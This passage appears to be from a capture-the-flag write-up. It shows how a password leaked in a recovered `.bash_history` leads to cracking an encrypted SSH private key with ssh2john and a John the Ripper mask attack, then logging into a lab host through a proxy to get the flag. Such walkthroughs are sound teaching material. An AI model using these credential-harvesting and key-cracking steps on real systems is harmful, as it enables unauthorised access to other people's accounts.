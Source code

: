 The private key that we retrieved is encrypted and we need to retrieve its
password first. After carefully exploring `.bash_history` in the extracted home
directory backup, we come across the following lines.

```
ssh -i ~/.ssh/id_rsa root@esx1.tcc.local
Enterprise1512
ssh-keygen -p -f ~/.ssh/id_rsa
```

It seems like the user used the `id_rsa` key to log in to another host,
accidentally typed the password into console and immediately changed it
afterwards. With this information, we can try to use John the Ripper to
crack the password, assuming that the user used a similar password and
just changed the digits.

```console
$ ssh2john "john@tcc.local/.ssh/id_rsa" > id_rsa.txt
$ john --mask=Enterprise?d?d?d?d id_rsa.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Enterprise2215   (john@tcc.local/.ssh/id_rsa)
1g 0:00:00:00 DONE (2024-10-26 13:00) 33.33g/s 201600p/s 201600c/s 201600C/s Enterprise5015..Enterprise4915
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The output shows that the correct password for the key is `Enterprise2215`.
Equipped with the correct passowrd, we can now successfully retrieve the flag.

```console
$ ssh -o "ProxyCommand=nc -x 10.99.24.101:23000 %h %p" -i "john@tcc.local/.ssh/id_rsa" -l "john@tcc.local" 10.99.24.101
Enter passphrase for key 'john@tcc.local/.ssh/id_rsa':
FLAG{sIej-5d9a-aIbh-v4qH}
Connection to 10.99.24.101 closed.
```
